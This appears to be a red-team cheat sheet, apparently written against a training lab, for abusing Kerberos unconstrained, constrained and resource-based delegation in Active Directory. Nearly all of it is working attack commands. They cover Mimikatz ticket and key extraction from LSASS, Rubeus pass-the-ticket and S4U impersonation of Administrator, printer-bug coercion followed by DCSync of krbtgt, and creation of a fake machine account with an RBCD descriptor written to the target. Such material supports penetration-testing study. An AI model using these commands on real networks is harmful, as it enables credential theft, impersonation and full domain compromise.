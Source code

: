 # Delegations

Kerberos delegation allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainComputer -UnConstrained
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
{% endtab %}
{% endtabs %}

### Exploitation

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT. Same cane be done in SafetyKatz too
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### Printer bug

The printer bug uses an RPC call of MS-RPRN which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

1. Run on compromised Server Rubeus monitor

```powershell
Rubeus.exe monitor /interval:5 /nowrap
```

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. Pass The Ticket `Rubeus.exe ptt /ticket:<ticket>`
4. DC Sync `SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"`

Check for **Windows Search(MS-WSP)**\[Default: Server-No, Client-Yes] and **DFS Namespaces(MS-DFSNM\[MDI-detectable])**\[Default:No] too.

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as Service for user (S4U):

* Service for User to Self (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user.
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user.\
  Note that the other services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endtab %}
{% endtabs %}

### Exploitation

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
{% endcode %}

Check if worked

```powershell
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$ 
```

Or dcsync if you have changed the service to LDAP.

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

### Enumerate

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```

### Exploitation

#### Create fake machine

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

#### Change security descriptor

<pre class="language-powershell"><code class="lang-powershell">$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
<strong>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
</strong>$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
</code></pre>

#### Abuse using Rubeus

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```
